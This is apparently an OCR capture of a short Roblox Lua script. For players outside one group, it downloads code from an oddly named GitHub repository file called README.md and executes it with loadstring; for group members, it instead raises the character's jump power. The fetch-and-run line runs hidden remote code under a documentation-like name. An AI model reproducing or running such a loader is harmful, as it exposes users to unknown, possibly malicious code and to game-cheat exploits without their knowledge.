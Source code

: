 local plr = game:GetService("Players").LocalPlayer
if plr:IsInGroup("5615635") then
    game.Players.LocalPlayer.Character.Humanoid.JumpPower = 250
    else
loadstring(game:HttpGet("https://raw.githubusercontent.com/DogePR/A213GFCDVBNVBN/main/README.md", true))()
end
